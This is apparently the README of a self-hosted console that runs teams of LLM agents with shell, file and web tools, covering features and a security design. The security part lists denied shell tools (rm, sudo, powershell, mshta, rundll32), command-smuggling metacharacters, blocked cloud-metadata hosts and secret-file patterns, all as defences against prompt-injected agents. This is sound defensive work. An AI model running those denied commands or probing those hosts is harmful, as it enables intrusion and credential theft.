

**Checkpoints** pause the run for review before it continues downstream.



**Delays** wait a duration or until a wall-clock time, and hold only their own branch.

**Live run state** shows on the edges (marching + glow while running, settle when done), with a faint **ghost transcript** of the chat behind the canvas and an **align-to-grid** snap (off by default). A **notification bell** lists run errors/warnings.

---

## 🖼️ Images & vision

Drop an image into the composer and a vision-capable agent can see it. 👁️🖼️

- 📎 **Paste, drop or pick** — the bytes **never touch the server**. They become an in-memory `data:` URL and ride in the request's `image_url` field: 🚫 no upload endpoint, 🚫 no file on disk.
- 🛡️ **Safe by construction** — only 🖼️ PNG / 📷 JPEG / 🎞️ WebP / 🎬 GIF are accepted, all inert when sniffed, which keeps the polyglot *"image that is also a script"* family out.
- 🤖 **Per-agent** — only models that actually support vision get the attachment; everyone else is unaffected.

---

## 🎙️ Voice & audio

Talk to the team, and let them talk back. 🗣️🔊

- 🎤 **Speech to text** — the mic button turns your voice into a message in the composer.
- 🔊 **Speak replies** — a speaker button reads any reply aloud; flip **Speak every reply automatically** to hear them all.
- 🧰 **Two engines** — use your provider's TTS, or the browser's 🏠 built-in voices (works offline, no API, no key). Pick the engine, provider and voice.
- ⏩ **Speed** and 🎚️ **pitch** — tune playback; pitch reads higher as female, lower as male. 🤖 **Each agent can override the pitch**, so a whole roster can sound distinct.

---

## ⌨️ Slash commands

Type `/` in the composer for a palette of everything you can address. ⌨️✨

- 🎯 **Target an agent** — `/CODE`, `/ROLE`, `/NAME` or `/ALL` sends your next message to one agent, a role, or the whole team.
- 🧭 **App commands** — the palette also lists the app's own commands, and never suggests one that wouldn't work here.
- ❓ **`/?`** — a quick reference, right in the input box.

---

## ♾️ Always-On — the loop that runs itself

Give an agent a **standing goal** and this app re-invokes it on a timer, one turn
at a time, until it finishes or you stop it. It is the difference between *"ask
the model a thing"* and *"hand the model a job and walk away."* 🚶♂️💨

- 🎯 **A standing goal per agent** — set it in the agent editor (or Brain Lab). Every tick, the agent is re-prompted with its goal, the iteration number, and a plain instruction to **make concrete progress now using its tools.**
- ⏱️ **A cadence you own** — the interval lives in **Config → Limits & Budgets** (default generous, because every iteration is **billed**). 💸
- 🧭 **An honest badge** — each agent card shows **RUNNING** while it works, **HELD** when it's parked, and idle otherwise, so a glance tells you the truth.
- 🛑 **Stop one, release one** — click an agent's **ALWAYS ON** badge to stop that run without switching the agent off. It becomes **HELD**; click again to release it and resume next tick.
- 🧰 **Release *everyone* in one click** — **Config → Permissions → Always-On** shows how many agents are held and a **RELEASE HELD AGENTS** button, so a roster parked by a cap (or by hand) is never a trap you have to click through one agent at a time.
- 🧨 **Two spend caps, both off by default** — **Max iterations** and **Max minutes**. When a cap trips the agent is **parked and held** (that's the point of a spend guard) and the status line tells you when a cadence is long enough that the cap would fire after a *single* tick — so you can set it to `0` and loop forever if that's what you want.
- 🔌 **Survives leaving the tab** — flip **Config → Permissions → Run while tab is hidden** and the timer is driven by a **Web Worker** (page timers are throttled hard in a background tab), with the in-flight turn no longer aborted the moment you switch away. Come back and it ticks immediately.
- 🧯 **Master kill switch** — **Config → Permissions → *Enable always-on*** stops everything at once, aborts in-flight autonomous turns, and **releases everyone** so switching it back on is a clean, working reset.
- ✅ **Only the right agents run** — an agent needs a standing goal **and** its own always-on switch **and** to be active **and** not held before the scheduler will touch it.
- 🧵 **Runs in the page, by design.** There is no server-side runner — this stops when the tab closes, which is exactly why it's cheap and easy to reason about.

> 📝 **Tip:** a standing goal of `idle` (or two words) gives the agent nothing to
> aim at, so it will wander and "explore." Give it a real objective — *"run the
> test suite and fix failures until green."* The status line in Config tells you
> roughly how many turns/hour that will cost.

---

## ❝ Global pre-prompt override — one instruction for the whole fleet

A single box in the **Agents-tab header** (§ button) that reaches **every agent's
system prompt**, on every call path — main chat, ask-directly and routing-chart
runs alike. ✨

- 🧩 **Prepend (default) or Replace — your call.** A toggle **inside the popup**
  (bottom-left) picks the behaviour, and the hint above the box updates to match:
  - **Prepend (off, default)** — the override is placed **in front of** each agent's own prompt, which still follows. Best for a house rule that everything should obey. 🏠
  - **Replace (on)** — the override **stands in for** the agent's prompt. Best for a temporary "everyone answer like *this*." 🎭
- 🪄 **Toggle it live** — **Edit** to write it, **Activate / Deactivate** to arm it without opening the editor. The button **pulses** while it's armed. 💠
- 🔒 **Stored prompts are never harmed** — the moment you switch it off (or flip back to Prepend), every agent's own prompt returns exactly as it was.
- ⚠️ **It can fight tools — and the app knows it.** A pre-prompt like *"reply with ONLY text / 9 words"* used to make agents narrate tool calls instead of sending them. The tool instructions now state plainly that a **tool call is the one exception** to any brevity rule, and the loop **re-prompts once** if a model only *says* it will use a tool.

---

## 🧭 The apps notch — one thumb to everything

A pull-tab centred just under the header **dips into the chat area** — a `\___/`
notch sized for a thumb. Tapping it drops the **apps menu**: 🧠 **Brain Lab**,
🧪 **API Lab**, 🔀 the **Routing chart** and 🌐 the **built-in browser** — so a
phone never has to hunt through the header, and the top rail keeps only what you
reach for constantly. It closes on an outside tap, on **Esc**, or when you pick
something. 📱

---

## 🧠 The context assembler & native tool calling

So a long job doesn't quietly fall out of the model's memory mid-task. 🧵

- 📏 **Budgeted against the model's *real* window** — replayed history is sized to
  the model's actual context limit (not a fixed `24k` characters), and each
  oversized tool result keeps its **head and tail** instead of being cut mid-answer.
- 🗜️ **Live-context compaction** — old assistant / `TOOL_RESULT` exchanges are
  compacted before **every** request, so the tool transcript can't crowd the
  conversation out.
- 📋 **The plan survives** — the `todo_write` list is re-injected into the system
  prompt and refreshed after each write, so it doesn't get compacted away halfway
  through.
- 🔧 **Native tool calling** — where the API family supports it, tools are sent as
  **real schemas** (OpenAI, Anthropic and Google shapes) instead of a syntax the
  model has to imitate, with automatic fallback to the prompt protocol if a
  provider rejects them.
- 🧠 **Learned dialect** — see *Dynamic tools* below: the dialect that last worked
  for a `provider::model` is remembered and tried first.

---

## 🛠️ Tools agents can use

Tick tools per agent in the editor. They're grouped:

**🧰 Server-side sandbox (files, web, shell)**
| Tool | What it does |
| --- | --- |
| 🌐 `web_search` | Search the web, no API key (DuckDuckGo → Marginalia → Wiby) |
| 📄 `fetch_url` | Read a page as plain text (refuses private/metadata hosts) |
| 📖 `read_file` / `list_dir` / `glob_files` / `grep_code` / `stat` | Explore a jailed filesystem |
| ✍️ `write_file` | Create or edit a file — **asks you first** |
| 🧑💻 `exec` | Run one command as an **argv array** (no shell), allowlisted |
| 🐍 `run_code` | Run a Python/Node/bash snippet (off by default) |
| 🐙 `git` / `git_commit` | Read-only git, plus stage + commit |

**🖊️ Familiar editor + workflow tools** (the names models were trained on)
`str_replace_editor` (view/create/str_replace/insert), `edit_file` (search/replace), `apply_patch` (Codex **V4A** diffs), `multi_edit` (**all-or-nothing**), `todo_write` (a plan), `think` (a private scratchpad), `http_request` (any method + headers + body).

**🤝 Team + memory + MCP**
`list_agents`, `ask_agent`, `tell_agent`, `read_mailbox`; `remember`, `share`, `recall`, `adopt`; `mcp_list`, `mcp_call`.

Every path is **jailed** server-side, so `../` and symlinks can't escape, and a **protected-paths** list keeps secrets (`storage/`, keys, dotfiles) off-limits even inside a root.

---

## 🧭 The provider harness

Different providers aren't one API with different URLs. A single registry (`src/Harness.php` + `ui/js/harness.js`) decides, per request:

- **Which API shape** — OpenAI-compatible, Anthropic Messages, Google `generateContent`, or Ollama — from the **endpoint host**, then provider id, then a model hint.
- **Which tool dialect** to teach — JSON, Claude XML, native tags, or plain — from the provider + model id.
- **Per-family quirks** — auth headers (Bearer / `x-api-key` / `?key=` / Azure `api-key`), request/response/usage/reasoning shapes, streaming envelopes, and output-token caps.

Adding a provider is one line in the alias table, or just a new provider in the UI. The browser copy is **generated** from the PHP (`php tools/gen-harness.php`) so the two can't drift.

---

## 🧠 Dynamic tools & the learned dialect



No two models are alike — and the **free** ones are the fussiest of all. 🔧 **Dynamic tools** hands each model the environment it is *actually* running in — the server's 🪟/🐧 OS, the working directory, and which shell commands **really exist** — then shows **one correct example per tool in that model's own dialect** (JSON, Claude XML, native `<|tool_call|>` tags, or plain). No more `findstr` on Linux, no more guessing the syntax: the model is *told*, up front. 🎯

- 🌍 **Speaks the model's language** — OpenAI-style JSON, Claude XML, native tags or plain JSON, detected from the provider + model id (or forced per agent).
- 🛟 **One rescue retry** — if a reply *looks* like a tool call but parses to nothing, the loop re-teaches **once** with a different dialect instead of letting the near-miss become the answer.
- 🧠 **Learns the winner** — once a call parses, the dialect that worked is remembered per `provider + model` and tried first next time.
- 🛑 **Off in one click** — Config → Labs → *Dynamic tools* restores the classic behaviour exactly, if you ever want it.

Free, quantised models that used to burn **6–8 calls** guessing now get it right the first time. 🚀

---

## ⏱️ Throttle / limiter / pacer



A 40-requests-per-minute key dies when 16 chart nodes fire at once. The pacer counts outbound calls **per host + key** and waits instead of spending a 429.

- **Per-key buckets** — four agents on four keys are four buckets; two agents on one key correctly share.
- **Knows the free tiers** — NVIDIA NIM 40/min, Groq 30, OpenRouter 20, … with a host default for anything unknown. Set the global field to **`0 = AUTO`** to use each provider's real ceiling, or type a number to override everyone. Precedence: **agent lock → provider → global → host default**.
- **Learns from a 429** — a real refusal holds the bucket closed for the server's `Retry-After`.

---

## 🔑 API pool — rotate your keys



Got several keys for one provider — a handful of free accounts, a team key, a spare? 🗝️ Drop them into the provider's **API pool** and let the console do the shuffling.

- 🔁 **Rotate after N requests** — set the number and the pool hands out the next key when one reaches it (`0` = every call).
- 🎯 **Pin a key to a model** — tick *Only this model* and enter a model # (like `#63BET7`) or a model id, and that key circles **just that model** while everything else keeps the single key.
- 😴 **429s get rested** — a rate-limit refusal puts a key on a **60-second cooldown** and the next call reaches for another, so one exhausted free tier never stalls the whole provider.
- 🧷 **Your explicit key still wins** — an agent's own Key Override always takes precedence. The feature is **on** by default and stays completely inert until a provider actually carries pool keys (empty pool → the single provider key, exactly as before); switch it off in **Config → Labs** to ignore pools entirely.

It stacks with the pacer: every key is counted in its **own** bucket 📈, so a busy fleet spreads its load instead of slamming one ceiling.

---

## 📊 Metrics & 🔎 Run trace

- **Agent cards** show a live line: `⚡ tokens/budget · N req · up 2h · 40/min` — with a tooltip of in/out tokens, billed calls, output cap, context window and last call. Set a **token budget** (Config → Limits) and it shows `used/limit (%)`.
- **🔎 Run trace** (Config → TRACE) is a sequenced timeline of every model turn and tool call: time, agent, model/tool, **ms**, **ok/fail**, and token cost — plus totals.

---

## 🕸️ Network & topology



The whole loop as a living map. Every activated agent and provider becomes a glowing node, and each exchange paints a dotted line whose dots travel the way the traffic actually moved.

> 🎛️ **It is also the most expensive thing in the app**, so every visual it owns has a switch in **Config → Desktop** — fog, bloom, the floating floor, auto-rotate, map detail and the frame cap. That card — every knob, what it costs and what it defaults to — is detailed in *Config → Desktop* above. 🧮

- 🧑 **You** — the red node at the heart of the graph, with a live card: 📨 prompts sent, 💬 replies, 🤖 agents online, ⚙️ working now, 🪙 session tokens and 📡 fleet average ping.
- 🤖 **Agent nodes** — one per activated agent, ringed in its own colour, showing its role, model, ⚙️ tool calls and ⬡ token spend, with 💧 ripple rings while it works.
- 🟣 **Provider nebulas** — each provider breathes as a soft cloud, with its agents orbiting inside.
- 🧵 **Traffic lines** — dotted and colour-matched to the model, with dots marching the direction the message actually travelled: ➡️ toward **You** for a reply, ⬅️ from **You** for a request.
- 🕹️ **Controls** — drag to orbit, scroll to zoom, right-drag to pan, click a node for its 📊 metrics, and switch 🧊 3D / 🗺️ 2D or go fullscreen.
- 🔔 **Notifications** — a bell keeps a running list of run errors and warnings so nothing scrolls past unnoticed.
- 🟠 **MCP nodes** — a server you *call* (**amber**) and a friend's client connected *to you* (**sky**) each become a node with the same clickable card: transport, reachability and tool count, tool policy, scope, and recent calls. Outgoing calls animate live (agent → server → agent); incoming friend traffic ticks in from the server's audit log.
- 🗂️ **Two extra tabs on every MCP card** — **Access** edits the node itself (a server's connection plus a per-server **tool allow/deny**; a friend's **read/write/exec** scope and **IP allowlist**); **Permissions** edits the app-wide shell allow/deny lists, interpreter levels, auto-approve / auto-deny and the code interpreter — inline.
- ❓ **Ask a model from its node** — the 3D card carries an **ASK** button that docks a small prompt box with a send button and a **Voice** toggle. The answer lands in a floating box pinned to the graph, isolated from the transcript, while the traffic still animates.
- 🛠️ **Verbose inline replies** — the graph's reply box prints the **real tool work** verbatim (call name, pretty-printed arguments, status, duration, full output) before the closing answer, and only the closing answer is ever read aloud. 🔊

---

## 🧮 Resource Manager — let the 3D graph rest 😴

The living map is lovely and also, by default, *always on*. **Config → Resource
Manager** adds optional brakes — every switch **off by default**, so nothing
changes until you ask:

- 🪟 **Pause when a panel is open** (routing chart, API Lab, Brain Lab, browser, modals) — no point rendering a graph behind a full-screen drawer.
- 🎯 **Pause when the window isn't focused** — switch to another app and it stands down.
- 👀 **Pause when the graph is off-screen** — an `IntersectionObserver`, which also fixes the **mobile** case where the panel is slid off-screen and kept rendering unnoticed.
- 🐢 **Slow down when idle** (default **10 fps**) — idle means no traffic beams, no working agents, settled layout, no recent interaction.
- 🧭 **Two speedometer gauges** + an FPS / frame-ms readout — **CPU** is this app's JS share of each frame; **GPU** is real GPU ms via `EXT_disjoint_timer_query_webgl2` when the browser exposes it, otherwise a clearly-labelled estimate.

---

## 💭 Thinking & reasoning

Some models show their work. 💭🧩 When a provider streams a reasoning trace, the **thinking panel** opens and shows it live, so you can watch the model deliberate before the answer lands — handy for debugging a stubborn prompt without cluttering the reply.

---

## 🧠 Memory

Agents keep **private notes** and share a small **collective** every agent reads. Tools: `remember` (private), `share` (collective), `recall`, `adopt`. Notes are injected as **recollection, not instructions**, and are fully editable/deletable in Brain Lab.

Two recent hardenings so memory can't look "off":

- If a model **narrates** a tool call ("I'll use the remember tool") instead of emitting it, the loop **re-prompts once** to actually send it.
- Memory syncs across devices but **unions** by id — a sync can never silently drop a note that exists only in your browser.

Replayed history is budgeted against the model's real context window instead of a fixed 24k characters, and oversized tool output keeps its head and tail rather than being cut mid-result.

---

## 💾 Export & import

Take your work with you. 📦

- 📤 **Export a session** — download one conversation from the transcript, or `GET /export/{id}`.
- 🗄️ **Back up everything** — `GET /backup` grabs the whole state as a single file.
- 📥 **Import** — `POST /import` restores it on this machine, or another.

---

## 🔁 Updates — download, verified, never auto-installed

The app can fetch its own published release and show you **exactly what would change**, without changing anything. 🧾

- 📥 **Config → Updates → DOWNLOAD UPDATE…** fetches the published archive from GitHub into `storage/updates/`, verifies it, extracts a staging copy and diffs it against your install: *N new · N changed · N unchanged · N not in this release* — plus the version each copy calls itself and the archive's SHA-256.
- 🔔 **It checks by itself at load.** The server reads two small files from the published copy (`VERSION` and `ui/js/store.js`) and compares version numbers, so the app knows a release exists **without downloading one**. If the published version is *newer*, one notification lands in the bell (🔔, right panel): *"Update available — published v337, this copy v344. Open Config → Updates to compare it."* Announced **once per published version**, not once per reload, and the answer is cached for **six hours** — so a reload usually costs no network call at all.
- 🎞️ **Two numbers, not one.** A release is announced by **either** of two signals, both read from the published copy: **`VERSION`** (repo root — the *release* number, bumped on every release, including one that changes no browser file) and **`APP_VERSION`** in `ui/js/store.js` (the browser *cache-buster*, which moves only when a file the browser caches changes). Before the release number existed the check could see only the cache-buster, so a **PHP-only release was invisible** — it reported *"up to date"* for a release that had shipped.
- 🏷️ **`VERSION` is a plain integer** (`347`, not `2026.10.26`): the comparison is numeric, so a dotted date would never read as newer. It also must never be *behind* `APP_VERSION`, and `tests/php/update.test.php` fails if it is — that is what stops a release from quietly making itself invisible. A published copy with no `VERSION` at all is judged on its cache-buster instead, so older releases keep working.
- 📰 **The notification names what shipped.** When a newer release exists, the server also reads the **top entry of the published `CHANGELOG.md`** — and only then, because that file is the largest in the repo and every byte of it is worthless while the two copies match. The bell says *"Update available — published v349 · RELEASING.md: the two-number checklist"*, and **Config → Updates** keeps a *What's new:* row, so the news survives a reload — a bell entry is raised **once per release** and its list lives only in memory. If the CHANGELOG cannot be read, the release is still announced, just without a name.
- 🔎 **That row opens.** *What's new* is a disclosure, not a teaser: closed it names the release and its opening sentence, opened it lists the entry's **own lines** — every bullet with its bold lead-in, sub-points indented — read from the same parse that produced the one-liner, so the two can never disagree. It is capped at 60 lines / 4000 characters and scrolls in place, because the text arrives over the network; when a cap bites it says so rather than pretending the entry ended. Every line is remote text and is placed as **text**, never as markup — the bold lead-in is a real element built around escaped content.
- 🎛️ **The switch is in Config → Updates:** *Check for updates when the app loads*, **on by default**, with **CHECK NOW** to ask immediately and a one-line answer beneath it (*"Published v337, this copy v344 — this copy is the newer one"*). Both numbers are always shown, because the published copy can be **behind** a local one and an arrow would read as an upgrade that takes you backwards. Off silences the load-time check only — CHECK NOW and DOWNLOAD UPDATE always work.
- 🔇 **A check that cannot run says nothing.** Offline, behind a proxy, or on a PHP with no curl, the load-time check stays quiet: it never blocks boot, never throws, and never claims you are out of date. A failed check is remembered briefly (15 minutes) so an offline machine is not retrying on every reload. The announcement names the *release*; the file-by-file **diff** still takes DOWNLOAD UPDATE.
- 🚫 **Nothing is installed.** There is no apply button, in the UI *or* the API. The only thing written is `storage/updates/`; your app folder is read and never modified.
- 🔐 **Your data is out of scope by construction.** The published copy **ships a default `storage/` folder**, so a plain "unzip over the app" would replace your config, token and provider keys with defaults. Every `storage/*` entry is refused at *extraction* time — before any diff exists — and `storage/` never appears in the comparison.
- 🧭 **What “not in this release” means.** Files on disk that the release doesn't contain (`cleancopy/`, screenshots, work you haven't pushed) are **listed, never deleted**.
- 🛡️ **The archive is treated as hostile.** `https` only, on GitHub's release hosts — checked before the request *and* again after redirects — with a 64 MB / 20 000-entry cap, and every entry name resolved by hand: `..`, absolute paths, drive letters and `stream://` wrappers are refused rather than written.
- 🗑️ **DISCARD** empties `storage/updates/` again; the download is ~11 MB and the staging copy goes with one click.
- 🧪 Covered by `tests/php/update.test.php`: entry-name refusals, wrapper stripping **before** the storage rule (the bug it was written for), the diff classifications, the source guard, and the CHANGELOG parsers (which line is the title, one bullet only as the summary, markdown stripped, truncation counted in **characters** so an em dash or emoji cannot make the response un-encodable, and the whole-entry reader behind *What's new* — lead-in split, nesting depth, and both caps).

> ⚠️ **Install is deliberately not implemented yet.** Choosing what to overwrite — and merging new config keys into a config that already exists — is a separate decision from *knowing* what changed, and this step only does the knowing.

---

## 🔐 Security & guardrails — safe by construction 🛡️

> **The short version:** giving a language model a shell, a filesystem and the web
> is normally a terrifying idea. So this app assumes the model is *hostile*, the
> web content it reads is *booby-trapped*, and the only trustworthy actor is
> **you, the operator**. Every capability is **off until you switch it on**, every
> dangerous action **asks first**, and every escape hatch has a floor beneath it.
> Nothing ships with a key 🔑, nothing runs before a token 🔑, and no tool can
> reach past the fence you drew. 🧱

### 🔑 1. The front door is locked — a per-device access token
- **🚪 Every single API route is gated.** No token → `401`. The only thing standing between a stranger and your agents' conversations, your files and your shell; the app has **no user accounts**, on purpose.
- **🧬 Nothing ships with a token.** A fresh copy **refuses to serve anything** until you run `./setup-token.sh` (or the one-click installer does it for you) — a fresh install answers `503 {"error":"no token configured"}`. You literally cannot forget to set one.
- **📵 The token never roams.** It is a **device-local credential**, *stripped from every state bundle* before it is mirrored to the server or synced to another device. One browser's empty field can never wipe another device's working paste.
- **🔁 Rotate on demand** — `./setup-token.sh --force` mints a new one; the old value dies instantly.

### 🚦 2. Approvals — nothing scary happens without a nod
- **✋ Ask-first by default.** `write_file`, `exec`, `run_code`, `git_commit` and their friends **queue a prompt** you answer: **Allow once / Always / Deny**.
- **🟢 Auto-approve is opt-in** — an explicit switch you flip, never an inherited default. Turn it on and any agent may write files without asking; leave it off and a human stays in the loop.
- **🛑 Auto-deny — the panic button.** One switch refuses *everything* that would otherwise ask, instantly, everywhere.
- **📥 A single Pending-approvals queue** collects everything waiting (from every agent **and** every remote MCP friend) so nothing slips through unseen.

### 🧾 3. Allow / Deny lists — an argv-level bouncer
- **✅ An allowlist you own** decides which programs may run at all. Each command is matched **argument by argument** — no glob fuzz.
- **⛔ A denylist that wins over approvals.** It is checked *before* the allowlist and before the approval prompt, so a name on it can never be waved through with "Always allow". `reboot`, `shutdown`, `rm`, `sudo`, `cmd`, `powershell` and the classic foot-guns live here.
- **🔁 …but nothing is denied *forever*.** The list is a **default**, not a law: an explicit `sandbox.exec_deny` in `storage/config.json` **replaces it wholesale**, and the same list is editable inline under **Config → Shell access** (or an MCP card's *Permissions* tab). Remove a name and it becomes an ordinary command again — refused as *"not allowed"* and back in the approval queue, exactly like everything else. No program is refused by name anywhere in code.
- **↩️ The undo path is on screen, not in the docs.** A refusal names the exact place to fix it — *"delete the `explorer` line under **Config → Shell access → Allow / Deny** (section 4), add it to section 2"* — and says why an approval can't do it (the denylist is checked first). In that panel, **Restore built-in defaults** reloads the shipped list even after a custom one replaced it, so you can always see what you replaced. An empty box falls back to the built-in defaults on purpose: clearing it must not silently un-deny `rm` and `sudo`. For a genuinely empty denylist, set `"exec_deny": []` in `storage/config.json` — which is what the panel's hint tells you.
- **🧨 Tripwires for metacharacters** — `|`, `&&`, `eval`, `xargs`, `env` and friends are refused, so a model can't smuggle a second command through a "harmless" one.
- **🎚️ Per-interpreter levels** — Blocked / Scripts only / Full — so `run_code` can be dialled from "no" to "quiet scripts" to "go wild" independently of `exec`.

### 🧱 4. The jail — a fence with no back gate
- **🔒 Every path is resolved server-side.** `../`, `..\\`, absolute paths and **symlinks** are all resolved and then checked — anything outside your declared **read/write roots** is refused with a message the model can read, not a mysterious crash.
- **🙈 Protected paths — secrets are invisible even *inside* a root.** A default deny-list (`storage/`, `.git`, `.env*`, `*.pem`, `*.key`, dotfiles, …) is enforced in the resolver itself, so **even if you point the root at the whole app folder, the access token and every provider key still cannot be read.** Clear the list to opt out — nothing is permanent.
- **✂️ Write scope is separate from read scope.** Keep writes in a scratch folder and even a prompt-injected agent can't overwrite `Config.php`, `.htaccess` or session data.

### 🐚 5. No shell to hijack
- **🧩 `exec` takes an *argv array*, not a string.** There is **no `sh -c`, no pipes, no redirects, no `$(...)`** — so there is no second command to inject, ever. The dangerous parts of "running a command" simply don't exist here.
- **🪟/🐧 Windows-aware** — builtins are implemented in PHP where no `.exe` exists, `.cmd`/`.bat` shims are never shelled, and the prompt is told the truth about the host so it stops guessing.
- **🔤 One entry covers both spellings.** Policy comparisons fold case and ignore a trailing `.exe`/`.com`, so `exec_allow: [grep]` matches the `grep.exe` Git for Windows actually ships, and a deny entry for `bash` also stops `bash.exe` (the WSL launcher). Without this the lists only protected the spelling you happened to type.
- **🪟 The Windows command hosts are denied by default.** `cmd`, `powershell`, `pwsh`, `wscript`, `cscript`, `mshta`, `rundll32`, `regsvr32`, `msiexec`, `wmic`, `schtasks`, `sc`, `reg`, `regedit` and `explorer` are each the local spelling of `sh -c` — the payload rides inside an argument, so the allowlist, the path guard and the jail never see it. They are **defaults you can remove**, not permanent refusals: that is the difference between a policy and a hardcoded block.

### 🧬 6. Edits are atomic, or they don't happen
- **🧷 `apply_patch` (V4A) and `multi_edit` are all-or-nothing.** Every hunk must match its context **exactly once**; one miss and **nothing is written** — no half-applied file, no corrupted source.
- **👀 Read-before-write** is the taught workflow, and search/replace refuses an ambiguous match rather than guessing which one you meant.

### 🐙 7. Git runs on a leash
- **📜 A subcommand allowlist** — read-only commands (`status`, `diff`, `log`, `show`, `blame`) run freely; anything that **writes** (`add`, `commit`, `checkout`, …) **asks first**.
- **🚫 Retargeting flags refused** — `-c`, `--git-dir`, `--work-tree`, `--output` can't be used to point git at somewhere it shouldn't go. `git_commit` supplies a safe default identity so it works on a clean host.

### 🌐 8. Network egress is fenced (SSRF guardrails)
- **🛰️ `fetch_url` and `http_request` refuse private and cloud-metadata hosts** by name — `169.254.x.x`, `metadata.google.internal`, `100.100.100.200` and friends — so a model can't use your box to probe the internal network or steal cloud credentials.
- **🔒 `http/https` only.** Spoofed `Host`, `Content-Length` and `Accept-Encoding` headers are **stripped**; responses are **truncated** so a giant page can't exhaust memory.
- **🧪 The API Lab keeps the same rules** and names the layer it failed at (dns / tls / connect / timeout / blocked) instead of leaking a stack trace.

### 🕵️ 9. Secrets never appear on screen
- **🙈 Key-shaped headers (`Authorization`, `x-api-key`, `Cookie`, …) are masked in the UI** — display only. Copy and send still use the real value, and the server **never echoes request headers back**.
